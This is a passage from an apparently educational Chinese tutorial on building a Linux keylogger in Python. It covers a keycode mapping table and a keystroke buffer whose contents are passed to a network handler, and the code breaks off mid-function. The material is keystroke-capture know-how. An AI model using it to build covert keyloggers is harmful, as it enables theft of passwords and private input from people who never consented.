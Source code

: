 ```python
```

![][status_manager]

原始的`event`类的属性比较少，扩展的`CuskeyEvent`类的`status_code`属性表示当前按键的状态(down按下，up释放，hold按住不放)，`key`属性将原始的数据转化为`ascii`字符。
为了简化程序，我们在这里不处理`F1~12`、`Del`等按不常用按键的处理，为此我们对按键进行分类，将这类按键划入到`unvalidate`。
![][decode_input]
为了将原始数据对应到ascii码表的字符，我们需要建立一个映射字典:
```python
code_dict = {
        1: 'ESC', 2: '1', 3: '2', 4: '3', 5: '4', 6: '5', 7: '6', 8: '7', 9: '8',
        10: '9', 11: '0', 14: 'backspace', 15: 'tab', 16: 'q', 17: 'w', 18: 'e',
        19: 'r', 20: 't', 21: 'y', 22: 'u', 23: 'i', 24: 'o', 25: 'p', 26: '[',
        27: ']', 28: 'enter', 29: 'ctrl', 30: 'a', 31: 's', 32: 'd', 33: 'f', 34: 'g',
        35: 'h', 36: 'j', 37: 'k', 38: 'l', 39: ';', 40: "'", 41: '`', 42: 'shift',
        43: '\\', 44: 'z', 45: 'x', 46: 'c', 47: 'v', 48: 'b', 49: 'n', 50: 'm', 51: ',',
        52: '.', 53: '/', 54: 'shift', 56: 'alt', 57: 'space', 58: 'capslock', 59: 'F1',
        60: 'F2', 61: 'F3', 62: 'F4', 63: 'F5', 64: 'F6', 65: 'F7', 66: 'F8', 67: 'F9',
        68: 'F10', 69: 'numlock', 70: 'scrollock', 87: 'F11', 88: 'F12', 97: 'ctrl', 99: 'sys_Rq',
        100: 'alt', 102: 'home', 104: 'PageUp', 105: 'Left', 106: 'Right', 107: 'End',
        108: 'Down', 109: 'PageDown', 111: 'del', 125: 'Win', 126: 'Win', 127: 'compose'
    }
```
而一些特殊按键，比如f5等通过`is_show`进行过滤，用户可自行修改该方法过滤不需要的按键。

#### 5.2.4 `字符缓冲区`处理`Backspace`, `Left`, `Right`特殊按键
当使用键盘输入时不可避免的会出错，那么我们会执行回退(`Backspace`)操作,当按下`Backspace`按键时上一次输入需要抹除掉，`Left`和`Right`操作会调到指定的位置进行输入。所以需要一个`字符缓冲区`来记录用户的输入以便处理上述情况。本程序中我们使用`列表`结构来作为缓冲区。这里一个要注意的地方就是hook_func参数，在`Python`中要改变传入的参数的值，那么需要传入列表或者是字典结构，这里使用列表来传值。该函数的作用是当程序终止记录键盘输入时，确保缓冲区的内容全部被发送出去。使用`闭包`来避免声明全局缓冲区变量。用户可根据注释里的提示完成扩展功能。
```python
def content_handler(net_work_handler, hook_func, str_cached_length=10):
    """
        input_str_content 保存键盘输入的内容,
        str_cached_length 缓冲区的长度为10K
        net_work_handler函数为处理记录文件的函数

       # TODO 当前的程序每次都需要去计算内容的长度，
       当输入的内容比较长时，是会严重影响性能的
       我已经帮你定义了content_length， 请完善char_handler函数
       使用content_length来代替len(input_str_content)
    """
    input_str_content = []
    postion = [None, ]
    content_length = [0, ]

    # hook_func 是为了保证缓冲区数据全部被发送出去
    def __hook_func():
        if input_str_content:
            net_work_handler("".join(input_str_content))
    hook_func[0] = __hook_func

    def char_handler(in_str):
        # backspace键，从缓冲区减去字符
        if in_str == 'backspace':
            if input_str_content:
                input_str_content.pop()
            # TODO content_length - 1
        elif in_str == 'Left':
            # 第一次执行left操作时，从缓存区最右边开始计算
            if postion[0] is None:
                postion[0] = len(input_str_content) - 2
            else:
```

[CHAR_NODE]: http://blog.jobbole.com/86531/
[x11]: https://github.com/amoffat/pykeylogger
[commands]: http://blog.csdn.net/dbanote/article/details/9414133
[devices_file]: http://tieba.baidu.com/p/1853607526
[example]: http://7xqdxb.com1.z0.glb.clouddn.com/tickets7.png
[device_info]: 设备信息截图
[evdev_doc]: http://python-evdev.readthedocs.io/en/latest/tutorial.html#listing-accessible-event-devices
[status_manager]: 状态管理截图
[decode_input]: 原始数据和解码后的截图
[multiprocess]: http://python.jobbole.com/82045/
[result]: /images/result.png